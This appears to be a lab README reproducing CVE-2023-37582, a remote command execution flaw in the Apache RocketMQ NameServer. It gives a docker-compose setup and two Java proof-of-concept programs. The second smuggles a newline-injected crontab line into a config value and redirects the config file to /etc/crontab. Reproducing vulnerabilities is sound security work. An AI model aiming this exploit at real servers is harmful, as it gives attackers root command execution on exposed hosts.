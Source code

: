# Apache RocketMQ Remote Command Execution Vulnerability (CVE-2023-37582)

The RocketMQ NameServer component still has a remote command execution vulnerability as the CVE-2023-33246 issue was not completely fixed in version 5.1.1.

When NameServer address are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function on the NameServer component to execute commands as the system users that RocketMQ is running as.

## Affected Version

- Apache RocketMQ 5.x <= 5.1.1
- Apache RocketMQ <= 4.9.6

## Usage

Run following command to startup the apache rocketmq, the NameServer and Broker was listing on `9876` and `10911`.

```bash
docker-compose up
```

### Poc of CVE-2023-37582

The poc below will write the configuration file of NameServer to `/tmp/rocketmq`,

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        // props.setProperty("productEnvName", "anything\\n1 * * * * {user} touch /tmp/crontab_success");
        props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/tmp/rocketmq");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

After running, you will see the file `/tmp/rocketmq` with content

```
bindAddress=0.0.0.0
clientRequestThreadPoolNums=8
clientRequestThreadPoolQueueCapacity=50000
clusterTest=false
configStorePath=/tmp/rocketmq
defaultThreadPoolNums=16
defaultThreadPoolQueueCapacity=10000
enableAllTopicList=true
enableControllerInNamesrv=false
enableTopicList=true
kvConfigPath=/root/namesrv/kvConfig.json
listenPort=9876
needWaitForService=false
notifyMinBrokerIdChanged=false
orderMessageEnable=false
productEnvName=anything
returnOrderTopicConfigToBroker=true
rocketmqHome=/opt/rocketmq-all-5.1.0
scanNotActiveBrokerInterval=5000
serverAsyncSemaphoreValue=64
serverCallbackExecutorThreads=0
serverChannelMaxIdleTimeSeconds=120
serverOnewaySemaphoreValue=256
serverPooledByteBufAllocatorEnable=true
serverSelectorThreads=3
serverSocketBacklog=1024
serverSocketRcvBufSize=0
serverSocketSndBufSize=0
serverWorkerThreads=8
supportActingMaster=false
unRegisterBrokerQueueCapacity=3000
useEpollNativeSelector=false
waitSecondsForService=45
writeBufferHighWaterMark=0
writeBufferLowWaterMark=0
```

Since the `org.apache.rocketmq.broker.filtersrv.FilterServerManager` was removed from `5.1.1`, you can try to exploit it with writing the content to a crontab file for command execution.

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        // try to write as crontab
        props.setProperty("productEnvName", "anything\\n* * * * * root touch /tmp/crontab_success");
        // props.setProperty("productEnvName", "anything");
        props.setProperty("configStorePath", "/etc/crontab");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:9876");
        admin.start();

        LinkedList<String> list = new LinkedList<>();
        list.add("127.0.0.1:9876");
        admin.updateNameServerConfig(props, list);

        admin.shutdown();
    }
}
```

![](images/Screen-2023-07-18-164213.gif)

## Reference

1. https://lists.apache.org/thread/m614czxtpvlztd7mfgcs2xcsg36rdbnc
